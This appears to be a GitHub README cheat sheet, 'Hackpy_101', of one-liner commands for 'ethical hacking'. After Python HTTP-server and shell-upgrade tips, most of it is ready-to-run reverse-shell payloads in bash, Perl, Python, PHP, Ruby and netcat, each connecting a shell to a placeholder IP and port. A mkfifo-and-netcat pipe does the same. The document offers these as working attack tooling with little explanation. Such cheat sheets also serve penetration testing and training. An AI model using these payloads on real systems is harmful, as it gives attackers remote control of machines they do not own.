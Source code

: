 # Hackpy_101
Contains Various one liner scripts of python to help you in the Ethical hacking.

# For HTTP SERVER
Python2 :- python -m SimpleHTTPServer <port>
Python3 :- python -m  http.server <port>
To open a sever on specific IP we use -- bind 
For ex- python -m http.server port --bind <IP> 
If this doesnt work use python2 version.

# For Requesting a Interactive Shell in Python
python -c 'import pty; pty.spawn("/bin/bash")'
This will upgrade a dumb shell to an interactive one
If this doesnt work for you then try doing this step wise\ 

**In reverse shell**\
$ python -c 'import pty; pty.spawn("/bin/bash")'\
Ctrl-Z\
**In Kali**\
$ stty raw -echo\
$ fg\
**In reverse shell**\
$ reset\
$ export SHELL=bash\
$ export TERM=xterm-256color\
$ stty rows <num> columns <cols>
  
# THIS IS WHAT YOU CALL A CONNECTOR TO A LISTENER
**THIS IS USED FOR REVERSE CONNECTIONS.\
IF YOU DONT KNOW WHAT THIS MEANS --> "GOOGLE IT!!"\
YOU CAN USE EITHER OF THE METHODS, GIVEN THAT THE SPECIFIC LANGUAGE IS INSTALLED IN YOUR SYSTEM**
# BASH
bash -i >& /dev/tcp/IP/PORT 0>&1

# PERL
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh IP PORT

#OTHERS
r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP port >/tmp/f

